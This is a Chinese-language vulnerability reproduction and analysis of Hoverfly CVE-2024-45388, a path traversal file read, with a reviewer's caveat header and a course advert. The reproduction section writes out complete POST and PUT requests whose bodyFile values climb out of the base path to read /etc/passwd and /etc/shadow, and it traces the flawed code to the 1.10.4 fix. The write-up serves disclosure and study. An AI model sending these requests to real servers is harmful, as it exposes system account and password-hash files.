## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验1.10.2，对比1.10.4校验；缺首次固定版本和完整受影响范围；需管理API可达/相应授权

代码与实验材料：POST/PUT bodyFile读取请求及调用链，源码和结果多为图；修改或替换模拟数据并非只读

来源证据范围：仅Docker官方镜像页，没有上游漏洞公告/补丁链接

- **操作与副作用边界（1）**：PUT副作用和认证未警示；依据：正文承认PUT先删除前一个模拟内容，但未作为破坏现有模拟配置风险提示；未说明管理API安全配置。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（2）**：请求与版本信息不完整；依据：JSON体标application/x-www-form-urlencoded；固定Content-Length126；1.10.4有检查不等于首次修复版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **来源与引用处置（3）**：POST只能一次的概括应限定；依据：可能是相同request匹配合并行为，不应推广为服务永久只能读一次。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  Hoverfly 任意文件读取漏洞（CVE-2024-45388）   
 蚁景网安   2025-02-17 08:30  
  
## 漏洞简介  
  
Hoverfly 是一个为开发人员和测试人员提供的轻量级服务虚拟化/API模拟/API模拟工具。其 /api/v2/simulation 的 POST 处理程序允许用户从用户指定的文件内容中创建新的模拟视图。然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 ../ 段来逃离 hf.Cfg.ResponsesBodyFilesPath 基本路径，从而访问任何任意文件。  
## 环境搭建  
  
我们还是利用 docker 来搭建环境  
  
https://hub.docker.com/r/spectolabs/hoverfly/tags  
  
  
```
docker pull spectolabs/hoverfly:v1.10.2
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2   
```  
## 漏洞复现  
  
构造数据包  
```
POST /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/passwd"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
  
  
```
PUT /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/shadow"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
  
## 漏洞分析  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#RegisterRoutes  
  
  
  
定义了 SimulationHandler 的路由注册方法，路由的每个 HTTP 方法（如 GET、PUT、POST、DELETE 等）都有一个对应的处理函数 (this.Get、this.Put、this.Post、this.Delete、this.Options、this.GetSchema)。这些函数处理实际的业务逻辑。  
- • GET /api/v2/simulation: 处理获取模拟数据。  
  
- • PUT /api/v2/simulation: 处理更新模拟数据。  
  
- • POST /api/v2/simulation: 处理创建新的模拟数据。  
  
- • DELETE /api/v2/simulation: 处理删除模拟数据。  
  
- • OPTIONS /api/v2/simulation: 提供有关 /api/v2/simulation 端点允许的 HTTP 方法的信息。  
  
- • GET /api/v2/simulation/schema: 获取模拟数据的 schema（结构）。  
  
- • OPTIONS /api/v2/simulation/schema: 提供有关 /api/v2/simulation/schema 端点允许的 HTTP 方法的信息。  
  
  
  
POST 和 PUT 方法 仅仅是函数的第三个参数有所不同，所以两种请求方式都可以实现任意文件读取  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#addSimulation  
  
  
  
第三个参数的不同导致 PUT 方法在获取新的模型内容时，首先删除前一个模拟内容，可以重复读取不同文件内容。POST 仅仅只能读取一次文件内容，无法更新。  
  
hoverfly-1.10.2\core\hoverfly_service.go#PutSimulation  
  
  
  
hoverfly-1.10.2\core\hoverfly_service.go#putOrReplaceSimulation  
  
  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFiles  
  
  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFile  
  
  
  
这里就是漏洞产生的关键原因，对传入的参数 filePath 没有做具体的校验，可以通过 ../ 实现跨越目录的读取文件  
  
我们看到最新版已经对传入的参数进行了处理  
  
hoverfly-1.10.4\core\hoverfly_funcs.go#readResponseBodyFile  
  
  
  
hoverfly-1.10.4\core\util\util.go#ResolveAndValidatePath  
  
  
  
这个 ResolveAndValidatePath 函数用于从一个绝对路径（absBasePath）解析一个相对路径（relativePath），并验证这个相对路径是否合法。具体来说，它确保了相对路径不会尝试向上回溯（使用 ".."），并且解析后的路径仍然在基路径之下。  
  
  
  
学习  
网安实战技能课程，戳  
“阅读原文“  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
